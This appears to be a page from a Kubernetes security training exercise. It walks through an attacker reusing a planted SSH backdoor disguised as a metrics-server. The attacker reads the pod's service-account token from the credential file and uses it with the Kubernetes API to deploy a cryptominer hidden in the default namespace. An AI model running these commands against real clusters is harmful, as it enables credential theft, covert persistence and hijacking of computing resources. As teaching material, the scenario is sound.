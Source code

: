 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
  * There is a service account associated with the container which has been granted access to all kubernetes APIs
  * The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

This time, we will create our miner in the `default` namespace. Since it is common for lots of orphaned deployments to land here, maybe ours will go unnoticed:
```console
export NAMESPACE=default
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Lastly, we will need curl for this and our SSH image didn't come with it preinstalled:
```console
apk update && apk add curl
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/apis/apps/v1/namespaces/$NAMESPACE/deployments" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"apiVersion":"apps/v1","kind":"Deployment","metadata":{"labels":{"run":"bitcoinero"},"name":"bitcoinero","namespace":"'$NAMESPACE'"},"spec":{"replicas":1,"revisionHistoryLimit":2,"selector":{"matchLabels":{"run":"bitcoinero"}},"strategy":{"rollingUpdate":{"maxSurge":"25%","maxUnavailable":"25%"},"type":"RollingUpdate"},"template":{"metadata":{"labels":{"run":"bitcoinero"}},"spec":{"containers":[{"image":"securekubernetes/bitcoinero:latest","name":"bitcoinero","command":["./moneymoneymoney"],"args":["-c","1","-l","10"],"resources":{"requests":{"cpu":"100m","memory":"128Mi"},"limits":{"cpu":"200m","memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods/bitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

Time for some celebratory pizza!